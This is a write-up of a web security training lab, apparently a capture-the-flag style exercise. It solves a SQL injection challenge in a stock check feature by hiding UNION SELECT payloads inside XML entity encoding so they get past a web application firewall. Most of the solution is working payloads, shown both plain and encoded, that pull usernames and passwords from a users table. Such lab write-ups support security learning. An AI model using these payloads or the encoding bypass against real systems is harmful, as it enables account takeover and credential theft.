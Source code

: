 
## Description:

this lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tbles

the database contains a 'users' table, which contains credentials of registered users

to solve the lab perform a SQL inection to retrieve the admin user's credentials then log in to their account

## Solution:

trying standard sql injection payloads in the 'productId' and 'storeId' parameters will fail as they will be flagged as an inection attemp, so using XML entities to bypass the WAF is the way to solve the lab

Burp Decoder with option "Encode as HTML" can be used to generate a payload 

```sql
UNION SELECT username FROM users \\ returns carlos,administrator,wiener
```

```xml
<storeId>
&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
</storeId>
```
<br>


```sql
UNION SELECT password FROM users WHERE username='administrator' \\ returns the password of the administrator user
```
```xml
<storeID>
&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x57;&#x48;&#x45;&#x52;&#x45;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x3d;&#x27;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;
</storeID>
```
<br>
also possible to query for username and password at the same time by using the concatenation operator

```sql
1 UNION SELECT username||':'||password FROM users
```

```xml
<storeId>
&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x7c;&#x7c;&#x27;&#x3a;&#x27;&#x7c;&#x7c;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
</storeId>
```